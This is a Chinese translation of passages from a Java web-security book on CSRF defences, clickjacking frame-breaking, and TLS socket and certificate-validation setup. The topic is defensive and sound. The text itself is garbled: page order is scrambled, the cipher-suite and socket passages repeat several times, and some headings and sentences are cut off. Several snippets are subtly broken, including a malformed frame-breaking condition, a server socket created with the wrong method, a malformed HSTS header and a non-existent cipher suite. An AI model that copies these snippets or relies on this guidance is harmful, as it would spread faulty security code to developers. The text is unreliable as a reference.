## 第 5 章：跨站请求伪造防御与点击劫持 144

### 使用会话 ID 作为 CSR 令牌

```java
public static void checkToken(HttpServletRequest request)
    throws AccessException {

    HttpSession session = request.getSession();

    // 从会话中获取令牌
    String sessionToken = (String)session.getAttribute("token");

    // 获取表单提交的令牌
    String requestToken = request.getParameter("token");

    // 检查它们是否匹配
    if (Utils.isEmpty(sessionToken) ||
        !sessionToken.equals(requestToken)) {
        throw new AccessException("MSG_MISSING_TOKEN");
    }
```

###### 我什么时候需要使用令牌？

通常，你需要对任何执行“重大交易”的请求添加 CSRF 防护。任何可能被伪造并导致损害的请求，无论该请求是如何制作的（GET 或 POST），你都应该添加 CSRF 令牌防御。加载静态资源的简单请求（例如驱动你网站视觉效果的基础图像）可能不需要 CSRF 防护。然而，某些框架支持为所有 URL 自动添加 CSRF 令牌，以实现更无懈的保护。那么，你应该什么时候添加这种防御？你应该只保护敏感交易？还是保护所有请求？这很难说——取决于应用程序。简而言之，如果该功能是敏感的，你就应该为该功能添加 CSRF 令牌防御！

### 使用会话 ID 作为 CSR 令牌

依赖会话标识符也意味着在需要时无法简单重新生成 Anti-CSRF 令牌。通常，我们认为应该避免使用会话 ID 进行 CSRF 防护，而应该使用独立的、随机生成的令牌。

## Apache Tomcat 6+ 同步器令牌模式实现

各种 Java 框架都以某种方式支持同步器令牌模式。然而，平台之间的实现差异可能会对安全和功能产生严重影响。了解你的框架如何防御 CSRF 以及内置选项是否

## 第 5 章：跨站请求伪造防御与点击劫持 127

对您的应用程序是最合适的。有时框架的解决方案是可以接受的，有时自己构建该防御是最好的。

Apache Tomcat 提供了一个 CSRF 防护过滤器，适用于托管在 Tomcat 6.10 及之后任何版本上的 Java Web 应用程序。该过滤器为 GET 或 POST 请求实现了同步令牌令牌模式（synchronizer token pattern）。CSRF 防护过滤器通过标准的过滤器映射（filter mapping）保护 URL 和 POST 请求。过滤器是可以配置的，具有多个设置。`randomClass` 设置允许您更改随机数生成器，默认值为 `java.security.SecureRandom`。此随机数生成器将用于创建 CSRF 令牌。`entryPoint` 设置用于不需要 CSRF 防护的 URL。在设置过滤器时，您可能需要对您网站的某个入口部分强制执行 CSRF 令牌，但你需要一个入口页面，例如某种不验证令牌的首页。还有一个名为 `nonceCacheSize` 的设置，用于选择缓存多少个令牌（以支持后退按钮和多标签页）。每个受保护的 URL 都将有不同的令牌，并且在几个标签页中打开的多个页面请求将分别拥有不同的令牌集合，这些令牌需要缓存。过滤器默认缓存五个令牌，通常倾向于使用较大的数字以确保良好的多标签页支持。

Tomcat CSRF 过滤器会自动向响应中任何既被过滤器覆盖又通过调用 `HttpServletResponse#encodeURL(String)` 或 `HttpServletResponse#encodeURL(String)` 编码的 URL 中添加令牌，正如下文的 URL 所示。如果发送给用户的 URL 没通过这些编码函数进行编码，则令牌将不会添加，但服务器端仍会强制执行，这会导致功能开始出现问题。编码后，您的 URL 看起来将像如下所示：

```
http://server/page?org.apache.catalina.filters.CSRF_NONCE=31ACB2CA09
```

此变量名确实暴露了关于正在使用 Tomcat 6 或更高版本以及正在使用 Tomcat 默认 CSRF 过滤器的实现细节。除了更改 Tomcat 代码外，没有简单的方法可以更改此变量名。

## 128 坚不可摧的 Java：构建安全的 Web 应用程序

由于 Tomcat CSRF 过滤器仅向 URL 添加令牌，但所有请求都可以配置为需要 CSRF 令牌，那么它是如何保护 POST 表单请求的？带有 `<form src="">` 的 URL 也需要通过 `HttpServletResponse#encodeRedirectURL(String)` 或 `HttpServletResponse#encodeURL(String)` 进行编码！与其他 CSRF 令牌注入机制不同，Tomcat 的 CSRF 过滤器将令牌添加到表单的 action URL 中，而不是作为隐藏变量。

由于通过这种机制每个请求都受到唯一 CSRF 令牌的保护，当用户在不同标签页中打开应用程序的多个页面时，服务器需要缓存多个有效令牌。如之前所述，默认缓存五个令牌可以通过 `nonceCacheSize` 参数进行更改。如果超过了 `nonceCacheSize`（即超过了配置的令牌数量），当打开许多标签页时，Tomcat 的 CSRF 防护过滤器可能会导致出现故障。例如，用户可以打开第二个标签页，进行 `nonceCacheSize` 加一的鼠标点击，现在提交原始标签页将失败。请确保将此变量设置得足够高！

如果您对整个托管在 Tomcat 的 Web 应用程序提供 CSRF 防护，并且您已经对应用程序使用了了正确的 URL 编码格式，那么通过启用 Tomcat CSRF 防护过滤器就可以轻松地获得 CSRF 防护。如果您没有使用这种 URL 编码机制，并且需要大量 URL 不受此过滤器的保护，那么自定义解决方案可能更为。

## 无状态 CSRF 防御

安全不是一个可以在孤立状态下考虑的问题。有时网站拥有大量用户，在会话（session）中保存另一个字符串是您希望避免的。某些应用程序出于性能或负载均衡考虑禁止 JEE 会话，这使得安全地保存随机生成的 Anti-CSRF 令牌具有挑战性。此外，无状态 Web 服务很常见，因为它们承诺能够以更少的服务器资源实现更高的并发使用。

常见的无状态 CSRF 防御模式之一是同步令牌模式的混杂种——双提交 Cookie 模式（double-submit cookie pattern）。我们更倾向于之前的同步令牌防御，但在某些情况下，双提交 Cookie 模式（或其他无状态 CSRF 模式）实际上非常有意义。然而，在这种情况下，您仍然需要构建您的 CSRF 令牌，使其完全随机（最佳），或会话 ID 的哈希（较好）。您永远不想将原始会话 ID 用于 CSRF 防御，以避免以任何方式暴露它。

双 Cookie 提交 CSRF 防御的工作如下：

- 1. 用户登录网站（或某些客户端登录 Web 服务）。

- 2. 身份验证成功后，服务器向客户端发送一个包含大随机值的 Cookie，然后在服务器端丢弃它。此随机值不保存在服务器上，因此该防御具有无状态特性。

- 3. 客户端现在负责在请求中（作为隐藏表单字段或其他请求参数）和 Cookie 中保存并发送此随机值。Cookie 至少应该是 `HttpOnly` 的，因为 JavaScript 代码永远不需要访问此值。

- 4. 服务器在每次请求时验证 Cookie 的值和请求参数是否相同。

这是如何运作的？如果用户登录了这个无状态网站，伪造的请求将始终包含该 Cookie。然而，攻击者应该没有办法访问或修改 Cookie 的值。

早之前描述的另一种无状态 CSRF 模式是，但使用标准的同步令牌模式的方法是使用会话 ID，因为会话 ID 已经保存在服务器端，所以 CSRF 令牌可以动态生成而无需保存。从会话 ID 生成难以猜的值的最佳方法是使用 HMAC：

```
CSRF-TOKEN = HMAC(PRIVATE-SERVER-KEY, Session ID);
```

## 130 坚不可摧的 Java：构建安全的 Web 应用程序

再次，这种方法的目的是提供一种机制，让您的 CSRF 令牌可以动态计算并验证，而无需保存。HMAC 哈希值不可逆转，因此暴露会话 ID 的风险很小，只要密钥在服务器上保持隐私，CSRF 令牌就无法伪造。

> 注意

双提交 Cookie 防御会被 Cookie 强制攻击（cookie forcing attacks）破坏。使用严格传输安全（Strict Transport Security）对于对抗 Cookie 攻击至关重要。

## 使用挑战/响应模式防御 CSRF

确保用户确实想要执行某项操作的最佳方法是强制用户输入一个仅其已知的值，例如密码或 PIN 码，以完成操作。因为攻击者不知道受害者的密码，他们无法在隐藏表单或链接中包含信息，从而防止了 CSRF。推测，如果攻击者已经知道了受害者的密码，他们就没有必要尝试创建隐藏表单、诱导用户登录受害者网站并试图引导用户进入包含 CSRF 攻击的页面了。

## 第 5 章：跨站请求伪造防御与点击劫 131

通常情况下，我们不将 CAPTCHA 视为一种防御屏障，而是视为攻击者的成本障碍。然而，安全 CAPTCHA 的可用性充其量糟糕，我们强烈建议尽可能避免使用。到目前为止，重新认证（Re-authentication）是一种更易用、更安全的挑战-响应机制。

## HTTP 请求 Referer 头部验证

每个现代浏览器都会在每个 HTTP 请求中发送 HTTP referer 头部。HTTP referer 包含请求来源页面的 URL。换句话说，就是 HTTP referer 托管了被点击的链接。这是 HTTP 标准中的一个简单部分，在每个请求的头中中显示如下所示：

```
Referer: http://www.site.com/
```

为什么你不能使用 HTTP referer 来防御 CSRF 呢？你可以检查 referer 以确保请求来自你预期的网站而不是第三方网站。这是一个好主意吗？不，不是。记住我们的网络安全第一法则：不要信任来自请求的任何内容（或不要信任浏览器的任何内容！）如果来自浏览器的任何内容都可以被攻击者伪造或修改，那么 referer 头部就不足以防御 CSRF。具体来说，某些公司会剥离离开其环境的所有请求中的 referer 以防止数据泄露。某些网络安全工具和浏览器插件会修改 referer 头部。即使 referer 来自你的网站，请求仍然可能被伪造，例如存储型 CSRF 漏洞的情况，攻击托管在你的网站上，而不是恶意的第三方网站上。

然而，尽管你不能依赖 HTTP referer 头部来验证请求是否来自正确的浏览器和用户，但你可以使用 HTTP referer 来指示请求是否可能是欺诈。这是一个微妙的观点。虽然 HTTP referer 头部验证不能作为防御性安全控制，但它可以用于入侵检测。

如果 HTTP referer 头部包含正确的引用 URL 或为空，则该请求有可能是合法的。然而，如果 referer 头部来自第三方，而你预期请求源自你的网站，那么你确定该请求是欺诈的。

## 132 铁甲 Java：构建安全的 Web 

## HTTP 动词

GET 和 HEAD 作为“仅限检索的 HTTP 动词”可能是互联网架构师在创建 HTTP 标准时的初衷，但这显然不再是事实。GET 是否仅执行检索类操作取决于网站设计者。当然，GET 与 POST 在数据内容长度限制方面存在一些实际差异。无论如何，用适当的 CSRF 防御保护任何敏感事务都是关重要的。

## POST vs. GET

HTTP 协议建议只有 POST 方法应该改变状态，其他方法不应以任何方式改变 Web 服务器的状态：“特别是，已经建立了一项惯例，即 GET 和 HEAD 方法不应该具有采取检索之外其他操作的意义。”¹³ 那么，只有 POST 请求应该是危险的，且只有 POST 请求才需要 CSRF 保护。然而，某些应用框架选择为所有 URL 以及所有表单提交/POST 请求添加 CSRF 保护。这是一个可以接受的做法，但它经常会破坏书签，因为今天书签的 CSRF token 到明天将完全失效。

减少潜在 CSRF 攻击攻击面的一种方法是在预期 POST 请求时在 HTTP 服务器端强制执行 POST。更具体地说，当预期 POST 时，你应该拒绝任何 HTTP GET 请求或任何使用 POST 以外的 HTTP 动词的请求！在许多应用程序中，当只应该接受 POST 时，不必要地同时接受 GET 和 POST 请求。在服务器端强制 POST 或任何其他 HTTP 动词甚至不是完全的 CSRF 防御。如所示，POST 的伪造可以像 GET 一样容易。但将你的 HTTP 动词限制为 POST 至少减少了攻击面。

同样重要的是，某些 Java Web 框架使得限制每个请求合适的 HTTP 动词（POST 或 GET）变得极其困难。

> ¹³ www.w3.org/Protocols/rfc2616/rfc2616-sec9.html

## 第 5 章：跨站请求伪造防御与点击劫 133

在这些情况下，在中心强制点验证 CSRF token 是一种可以接受的做法。将请求限制为仅合适的 HTTP 动词是良好的实践并能减少攻击面，但对于构建安全的 Web 应用并非绝对必要。

## XSS 防御与 CSRF 保护


任何 XSS 漏洞都可以用于绕过你的 CSRF 防御。XSS 可用于从页面爬取令牌并重放它们。XSS 可用于弹出虚假的重新认证挑战。XSS 可以访问没有 `HTTPOnly` 标记的 cookie。XSS 可用于模拟任何请求。因此，我们通常认为 XSS 漏洞比 CSRF 漏洞更危险。再次，XSS 可用于绕过任何 CSRF 防御，因此 XSS 防御是完善 CSRF 防御的关键第一步。

## 点击劫

点击劫（Clickjacking），¹⁴ 又称为“用户界面重装攻击”（User Interface Redress attack），是一种欺骗用户点击某个位置，而他们实际上在点击另一个可能导致危害的形式。这种攻击与 CSRF 类似，通常从被攻击网站以外的站点发起。

点击劫攻击通过以下方式进行：

- 通过 `iframe` 或类似的结构在第三方站点中加载有漏洞的网站
- 通过使其透明来隐藏有漏洞网站的存在
- 欺骗用户点击网站的某些区域

> ¹⁴“clickjacking”一词由 Jeremiah Grossman 和 Robert Hansen 于 2008 年创建

## CSRF 和点击劫的共同点？

CSRF 和点击劫都滥用了用户对被攻击网站以外站点的信任。这些攻击通常托管在第三方网站上。

## 如何对抗点击劫

为了防止点击劫，你必须防止你的网站被框架化。防御点击劫最直接的方法是发送 `X-Frame-Options` 头部。该头部指示合规浏览器该站点不愿意被框架。有三种主要的 `X-Frame-Options` 选择：

- `X-Frame-Options: DENY` 禁止任何站点
- `X-Frame-Options: SAMEORIGIN` 允许同源
- `X-Frame-Options: ALLOW-FROM` 允许列出的域名

## 跳出框架

尽管 `X-Frame-Options` 指令被大多数浏览器支持，但如果你的网站仍然需要支持旧浏览器，可以通过 JavaScript 强制页面作为顶层窗口来实现。在构建此类防御时，必须非常小心即使使用户关闭或在浏览器中禁用了 JavaScript，点击劫也将失效。该概念是使用 CSS 样式隐藏页面的全部内容或显示隐藏的内容。这样，即使启用了 JavaScript，也可以跳出框架或显示内容。如果没有启用 JavaScript，点击劫是不可能的，因为网站内容被隐藏了。

- 首先，在文档 `HEAD` 中添加一个样式元素来隐藏文档 `BODY`：

```
<style id="anticlickjack">body{display:none !important;}</style>
```

然后，使用脚本在需要时跳出框架或显示内容：

```
<script type="text/javascript">
if (self top) {
  var anticlickjack =
  document.getElementById("anticlickjack");
  anticlickjack.parentNode.removeChild(anticlickjack);
} else {
  top.location = self.location;
}
</script>
```

## 注意

浏览器对 `X-Frame-Options` 的支持，特别是 `X-Frame-Options ALLOW-FROM` 的支持并不统一。Mozilla 维护着 `X-Frame-Options` 的支持列表：https://developer.mozilla.org/en-US/docs/HTTP/X-Frame-Options，Erland Oftedal 提供了一个极好的 `X-Frame-Options` 浏览器测试：http://erland.oftedal.no/blog/tools/xramesoptions/。随着浏览器对 `X-Frame-Options` 支持的加强，防御点击劫将变得更加容易。

这种方法被称为 CodeMagi 点击劫持防御$^{15}$，在 IE6+、Firefox 3+ 以及大多数版本的 Chrome、Safari 和 Opera 中有效。

## 总结

CSRF（跨站请求伪造）和点击劫持攻击滥用了终端用户对应用程序的信任。这些风险更具挑战性，因为此类类型的攻击是托管在第三方网站上的，而终端应用程序很难对第三方网站上的攻击进行防御。更糟糕的是，这些风险的感染向量通常部署在高流量网站或垃圾邮件中以产生最大的影响。然而，你可以通过适当且安全的编码技术来阻止 CSRF 和点击劫持。要阻止 CSRF，你主要需要利用同步令牌模式（synchronizer token pattern）或无状态双重提交 Cookie 模式（stateless double-submit cookie pattern）。要阻止点击劫持，你需要通过 `X-Frame-Options` 头部掌握框架破解（framebreaking）。

> $^{15}$ https://www.codemagi.com/codemagi-clickjacking-defense

## 第 6 章

### 保护敏感数据

信用卡号。社会安全号码。密码。糖水的秘密配方。最终，你的应用程序需要处理敏感信息。无论你是将数据写入文件、存储在数据库中，还是通过网络发送，你的代码都需要保持信息的安全。在本章中，我们将涵盖保护数据免受窥探之眼侵害的技术。

在深入研究这些技术之前，让我们先通过回顾你需要拦截的威胁来设定背景。大多数人会立即联想到窃听者在数据通过网络传输时收集机密数据的危险。可以肯定，这确实是一个真实的威胁，而且“云”的广泛采用意味着比以往任何时候的应用程序都需要防御这种威胁。我们需要一种可以在跨网络发送信息的方法，而不必担心窃听者。

另一种类型的网络威胁是攻击者对你发送的数据并不感兴趣；她只是想假装成你。这些冒充者可能能够发送看起来像是来自你的应用程序的消息。

例如，假设你正在构建一个 Web 应用程序来打开金库门（这听起来很疯狂，但某地的某人可能正在这样做）。为了打开金库门，你发送一个特制的 XML 消息，内容为：“芝麻开门”。你可能会保护这条消息，使得攻击者无法确定如何说“芝麻开门”，但如果攻击者可以看到你发送受保护的消息，那么攻击者可能会记录该消息并回放。攻击者并不知道消息是什么，也不知道它是如何工作的。她只知道如果她发送她看到的相同消息，金库就会打开。我们希望防止这种冒充行为。

大多数开发者会考虑的下一个常见威胁是攻击者正在破解密码文件。虽然我们将密码文件的网络级和系统级保护留给网络管理员（我们确信关于这个主题至少有一两本书），但应用程序开发人员可以确保密码文件在实际被攻击者访问时，不会轻易泄露其秘密。密码保护在本书的其他地方有所介绍。

最后，存储有价值信息的应用程序是攻击者试图提取这些信息的首要目标。这种威胁可能表现为窃取整个文件或数据库的攻击，或者攻击者可能会尝试更具针对性的手段，尝试使用 SQL 注入或其他漏洞来仅提取目标信息。

最后两种威胁的相似之处在于，攻击者想要密码或其他存储的数据。我们对它们的处理方式不同，因为在实践中数据的性质是不同的。密码通常以一种不可逆的方式受到保护：一旦密码的保护到位，你就无法撤销它来发现密码的真实内容。然而，你可以判断提交的密码是否与存储的密码匹配。

但对其他类型数据的保护需要是可逆的。例如，当你保护一个信用卡号时，你很可能需要在之后移除保护，以便实际使用信用卡处理购买。这种差异导致了不同类型的威胁，反之又需要不同类型的安全措施。在本章中，我们重点关注可逆的保护。

现在我们已经过过了这些威胁，让我们考虑缓解它们的各种方法。始终记住你正在防御的威胁是非常重要的。一个完美的安全机制对于某些类型的威胁来说也可能是完全不从心的。在投入大量精力设计安全控制措施之前，先对你的应用程序将面临的威胁进行建模。在安全领域，细节决定成败。

在继续之前，还有最后一点需要记住的：Java 中的加密功能可能随平台而异，并根据本地系统安装了哪些加密协议和提供者而表现得不同。这种变化部分源于底层操作系统的原生能力；部分源于政府的出口限制；部分源于 Java 加密架构 (JCA) 和 Java 加密扩展 (JCE) 设计中刻意的灵活性。在书中，我们将主要关注 Oracle 提供的默认功能。然而，你应该花些时间检查其他的 Java 加密提供者，看看它们提供了什么。两个常见的第三方提供者是 IAAK 和 Bouncy Castle 加密包。

## 传输数据的安全

防御前面提到的网络威胁的标准方法是使用加密协议安全套接层（SSL）或其现代变身传输层安全（TLS）。原始 SSL 规范由 Netscape 在 1995 年开发并发布。原始协议标准经过了多次修订，以调整规范中的缺陷和新的安全技术。1999 年，该标准被称为 TLS，而 TLS 的当前版本是 1.2。

尽管名称发生了变化，大多数人继续使用 SSL 来指代 SSL 和 TLS。

> 注意：HTTP 传输安全 (HSTS) 标准是一种广泛支持的 HTTPS 头部，它可以强制浏览器在特定时间内始终使用 HTTPS！只需交付以下响应头即可确保支持的浏览器只能对你的网站建立 HTTPS 连接！

```
Strict-Transport-Security: max-age=3153600 includesSubDomains
```

Chromium 项目甚至允许你预加载 HSTS 头部，以便 Chrome、Aviator 以及其他基于 Chromium 项目的用户在首次访问你的网站时自动获得传输安全的益处。发送邮件到 `agl@chromium.org` 将你的网站添加到 Chrome 的传输安全默认列表中。这些协议的骨干是由公密钥基础设施提供的，它允许你信任以前从未接触过的服务器。这是通过证书机构（CA）系统实现的，例如 Symantec/ VeriSign 和 Comodo，它们签署放置在服务器上的加密证书。当 TLS 客户端连接到服务器时，服务器会将证书发送给客户端。如果客户端信任签署证书的 CA，那么客户端在验证该机构确实签署了证书后就可以信任服务器。这一验证步骤是通过 TLS 基于的公钥加密实现的。一旦建立了这种信任，就会创建一个安全的通信通道。

证书链被用于提供更好的扩展性和证书控制。证书链使用两种类型的证书机构：信任的根 CA 和由根 CA 签名证书的中间 CA。如果 TLS 服务器使用的证书是由一个中间 CA，然后服务器将向客户端提供两个证书：服务器证书和中间 CA 证书。

客户端随后将验证该证书链。首先，它验证服务器证书是由中间 CA 签名的；然后，它验证中间 CA 证书是由客户端信任的根 CA 签名的。如果证书链是完整的，那么客户端将信任该服务器。证书链可以由多个中间 CA 的证书组成。在这种情况下，服务器将提供整个证书链，客户端需要验证整个证书链。

客户端维护了一个来自其信任的 CA 的根证书列表。在实践中，这些根证书是随浏览器、SDK 和其他应用程序一起分发的。Java 自带了一组受信任的证书，存储在 `$JAVA_HOME/lib/security/cacerts` 文件中。我们将在本章稍后的部分介绍如何读取该文件。

如你所见，TLS 是一个复杂的协议。RFC 5246 中定义的规范长达 104 页，并引用了其他 RFC。大多数时候，你不需要担心 TLS 的细节。如果你正在编写运行在 Web 服务器背后的代码，那么你将依赖 Web 服务器来处理所有的连接细节。在这种情况下，本节的大部分内容将直接相关。然而，你仍然需要配置 Web 服务器使用的证书，该主题由“证书和密钥管理”部分涵盖。

如果你编写的代码运行在已经处理与 Web 服务器连接的 Web 客户端之后，也适用相同的考虑因素。你需要配置证书，但不需要担心过度依赖你的 Web 服务器或客户端前端。

然而，请注意，这些方法中有很多许多项并没有提供你预期的安全检查³。如果你依赖于前端，请使用各种配置错误的证书进行测试，看看它是如何响应的。我们希望你的前端会断开无效证书的连接，但研究表明，许多实现仍然可以继续运行，因此容易受到 TLS/SSL 在正确使用时本应防止的各种攻击。

解决完这些问题后，让我们转向 TLS 和 SSL。Java 使用这些协议非常简单。Java 安全套字扩展 (JSSE) 包含多个包，使得处理 SSL 和 TLS 变得非常直接。

> ³ 参考[世界上最危险的代码：在非浏览器软件中验证 SSL 证书](www.cs.utexas.edu/~shmat/shmat_ccs12.pdf)，以对有多少系统拥有损坏的 TLS/SSL 实现进行冷静的分析。

多直接？简单地导入 `javax.net.ssl.*` 包，定义主机和端口，并创建一个套接字：

```
SocketFactory sf = SSLSocketFactory.getDefault();
Socket socket = sf.createSocket(host, port);
```

现在你有一个安全的通信通道，可以像任何其他连接到服务器的 Java 套接字一样使用。

创建一个安全的服务器套接字同样简单：

```
ServerSocketFactory ssf = SSLServerSocketFactory.getDefault();
Socket socket = ssf.createSocket(port);
```

在两种情况下，`host` 是一个包含主机名的字符串，`port` 是一个表示建立连接的端口的整数。例如，HTTPS 的标准端口是 443。虽然这很容易，但并不是全部的事貌。在安全领域，总有细节需要记住，而这些细节如果配置不当，可能会降低本应稳如磐石的安全系统的安全性。

## 协议版本

由于 SSL 和 TLS 拥有悠久的历史，你希望确保只使用最新的安全协议。你可以控制套接字将使用的协议。以下片段在套接字上仅启用了 TLS 1.1 和 1.2：

```
String[] p = {"TLSv1.1", "TLSv1.2"};
socket.setEnabledProtocols(p);
```

这两个协议是编写时的最先进技术，如果你可以，就应该使用它们。然而，并非所有系统都支持这两个协议。你可能会遇到支持 TLS 1.0 版本和各种 SSL 版本的系统。尽量避免 SSL，转而使用 TLS 版本之一——最好是你的系统支持的最现代版本。

## 加密套件

套接字的安全性取决于两点：保持密钥安全以及使用具有足够强度的加密。我们将在稍后讨论密钥安全性，因此在本节中我们讨论加密算法。

TLS 在创建和管理安全套接字的各个阶段使用不同的算法。这些算法的组合被称为加密套件，而且它们数不胜数。这里是一个示例：

```
TLS_ECDHE_ECDSA_WITH_AES_256_CBC_SHA384
TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA384
TLS_RSA_WITH_AES_256_CBC_SHA256
TLS_ECDH_ECDSA_WITH_AES_256_CBC_SHA384
TLS_ECDH_RSA_WITH_AES_256_CBC_SHA384
TLS_DHE_RSA_WITH_AES_256_CBC_SHA256
TLS_DHE_DSS_WITH_AES_256_CBC_SHA256
TLS_ECDHE_ECDSA_WITH_AES_128_CBC_SHA384
TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA
```

套接字的安全性取决于两点：保持密钥安全以及使用具有足够强度的加密。我们将在稍后讨论密钥安全性，因此在本节中我们讨论加密算法。TLS 在创建和管理安全套接字的各个阶段使用不同的算法。这些算法的组合被称为加密套件，而且它们数不胜数。这里是一个示例：

```
TLS_ECDHE_ECDSA_WITH_AES_256_CBC_SHA384
TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA384
TLS_RSA_WITH_AES_256_CBC_SHA256
TLS_ECDH_ECDSA_WITH_AES_256_CBC_SHA384
TLS_ECDH_RSA_WITH_AES_256_CBC_SHA384
TLS_DHE_RSA_WITH_AES_256_CBC_SHA256
TLS_DHE_DSS_WITH_AES_256_CBC_SHA256
TLS_ECDHE_ECDSA_WITH_AES_128_CBC_SHA384
TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA
```

套接字的安全性取决于两点：保持密钥安全以及使用具有足够强度的加密。我们将在稍后讨论密钥安全性，因此在本节中我们讨论加密算法。TLS 在创建和管理安全套接字的各个阶段使用不同的算法。这些算法的组合被称为加密套件，而且它们数不胜数。这里是一个示例：密码学世界变化很快，你需要关注新攻击并调整你支持的套件。通用规则是：

- 不要使用列出 `ANON` 的套件。它们不提供身份验证。
- 不要使用包含 `NULL` 的套件。
- 避免使用 `EXPORT`。

> 4 [世界上最危险的代码：在非浏览器软件中验证 SSL 证书](www.cs.utexas.edu/~shmat/shmat_ccs12.pdf)，对有多少系统拥有损坏的 TLS/SSL 实现进行冷静的分析。

多直接？简单地导入 `javax.net.ssl.*` 包，定义主机和端口，并创建一个套接字：

```
SocketFactory sf = SSLSocketFactory.getDefault();
Socket socket = sf.createSocket(host, port);
```

现在你有一个安全的通信通道，可以像任何其他连接到服务器的 Java 套接字一样使用。创建一个安全的服务器套接字同样简单：


```
ServerSocketFactory ssf = SSLServerSocketFactory.getDefault();
Socket socket = ssf.createSocket(port);
```

在两种情况下，`host` 是一个包含主机名的字符串，`port` 是一个表示建立连接的端口的整数。例如，HTTPS 的标准端口是 443。虽然这很容易，但并不是全部的事貌。在安全领域，总有细节需要记住，而这些细节如果配置不当，可能会降低本应稳如磐石的安全系统的安全性。

## 协议版本

由于 SSL 和 TLS 拥有悠久的历史，你希望确保只使用最新的安全协议。你可以控制套接字将使用的协议。以下片段在套接字上仅启用了 TLS 1.1 和 1.2：

```
String[] p = {"TLSv1.1", "TLSv1.2"};
socket.setEnabledProtocols(p);
```

这两个协议是编写时的最先进技术，如果你可以，就应该使用它们。然而，并非所有系统都支持这两个协议。你可能会遇到支持 TLS 1.0 版本和各种 SSL 版本的系统。尽量避免 SSL，转而使用 TLS 版本之一——最好是你的系统支持的最现代版本。

## 加密套件

套接字的安全性取决于两点：保持密钥安全以及使用具有足够强度的加密。我们将在稍后讨论密钥安全性，因此在本节中我们讨论加密算法。

TLS 在创建和管理安全套接字的各个阶段使用不同的算法。这些算法的组合被称为加密套件，而且它们数不胜数。这里是一个示例：

```
TLS_ECDHE_ECDSA_WITH_AES_256_CBC_SHA384
TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA384
TLS_RSA_WITH_AES_256_CBC_SHA256
TLS_ECDH_ECDSA_WITH_AES_256_CBC_SHA384
TLS_ECDH_RSA_WITH_AES_256_CBC_SHA384
TLS_DHE_RSA_WITH_AES_256_CBC_SHA256
TLS_DHE_DSS_WITH_AES_256_CBC_SHA256
TLS_ECDHE_ECDSA_WITH_AES_128_CBC_SHA384
TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA
```

## 前向安全性

如果服务器私密钥被泄露，前向安全性可以保护你过去的通信。没有前向安全性，获取服务器私密钥的攻击者可以通过将服务器私密钥应用于其在过去记录的流量来解密通信。有了前向安全性，攻击者将无法使用私密钥冒充服务器，而且攻击者将无法解密记录的通信流量。

窃取私密钥并没有你想象的那么困难。信任的系统管理员通常拥有密钥的访问权限，法律授权可以强制管理员交出密钥，安全漏洞会导致密钥暴露。例如，2014 年 4 月公布的 OpenSSL Heartbleed 漏洞允许远程攻击者通过滥用心跳扩展的包来窃取服务器的私密钥。

实现了前向安全性的系统在 Heartbleed 漏洞面前面临的风险较小（这并不是要削 Heartbleed 的严重性），因为它们过去的通信仍然是安全的。我们反复强调：通过选择支持前向安全性（ECDHE 或 DHE）的加密套件来保护你的通信。

# 第 6 章：保护敏感数据 145

现在，这两个套件在浏览器和其他系统中可能无法得到良好支持。你需要进行大量的测试，以确保应用程序支持的套件，你将连接的其他系统也支持。如果网络连接的两个端点没有共同的套件，连接将失败，并报错“接收到致命警报：在传输任何应用程序数据之前发生握手失败异常”。指定加密套件的代码足够简单：

```java
String[] ciphers = {
  "TLS_ECDHE_ECDSA_WITH_AES_128_CBC_SHA",
  "TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA"
};
socket.setEnabledCipherSuites(ciphers);
```

现在你的 socket 将仅使用这两个加密套件中的一个。如果你控制两个端点，则可以确保双方都支持必要的加密套件；但如果你只控制通信的一侧，请进行广泛的研究和测试。在编写本文时，许多服务器还缺乏对 ECDHE 的完整支持。Google 支持第二个套件，但如果代码只启用了 `TLS_ECDHE_WITH_AES_128_CBC_SHA`，与 Google 的连接将会失败。

## 证书验证

记住，身份欺骗是你想要阻止的威胁之一。阻止身份欺骗的两个关键技术是验证服务器的主机名与证书中记录的主机名匹配，以及验证证书未过期。默认情况下，Oracle JSSE 中的安全 socket 会验证过期日期，但不会验证主机名。这是因为主机名验证取决于构建在 TLS 之上的协议，而过期日期的检查在所有协议中都是相同的。稍后在先查看主机名验证之后，我们将查看过期日期检查中的一个细微之处。

虽然低层安全 socket 不验证主机名，但 JSSE 中的 HTTPS 支持验证。为了实现这一点，实现 HTTPS 的类包含一个 `HostnameVerifier`，它会验证证书中的主机名与你正在连接的主机名称是否匹配。如果不匹配，连接将终止。

例如，以下代码将与 `your.url.com` 建立 HTTPS 连接。如果 `your.url.com` 的证书与主机名不匹配，连接将在发送任何数据之前终止。

```java
String hostURL = "https://your.url.com";
URL url = new URL(hostURL);
HttpsURLConnection ctn;
ctn = (HttpsURLConnection)url.openConnection();
```

主机名连接非常复杂且有些繁琐。结果，在某些你希望它成功的情况下，它可能会失败。为了处理这种情况情况，你可以实现自己的 `HostnameVerifier`，它会在主机名不匹配时被调用。以下代码显示了自定义主机名验证器的骨架，它始终返回 `false`。

```java
public static class CustomHostnameVerifier
implements HostnameVerifier {

    boolean verify(String hostname, SSLSession session) {
        boolean verified = false;
        /*
        ** ...用于验证主机的逻辑...
        */
        return verified;
    }
}
```

添加你自己的逻辑来验证主机机，但要理解主机名验证比听起来要复杂得多。⁵

单行代码将你的主机名验证器与 HTTPS 连接关联起来。在接后的代码中，我们将自定义的验证器添加到 HTTPS 连接中。

```java
String hostURL = "https://your.url.com";
URL url = new URL(hostURL);
HttpsURLConnection ctn;
ctn = (HttpsURLConnection)url.openConnection();

// 主机名验证
ctn.setHostnameVerifier(new CustomHostnameVerifier());
```

⁵ 参见 https://tools.ietf.org/html/rfc6125 以了解主机名验证的复杂性。

# 第 6 章：保护敏感数据 147

自定义主机名验证器的常见用是为了适应开发环境。开发机器上的证书可能不完全匹配，与其花时间修复证书，许多开发者将简单地使用自己的主机名验证器作为替代方案。只需确保你的开发代码不会运行在生产环境中即可。

如果你在低安全 socket 连接（而非 HTTPS 连接）中需要 HTTPS 风格的主机名验证，可以使用 `SSLParameters` 类：

```java
SSLParameters sslParams = new SSLParameters();
sslParams.setEndpointIdentificationAlgorithm("HTTPS");
socket.setSSLParameters(sslParams);
```

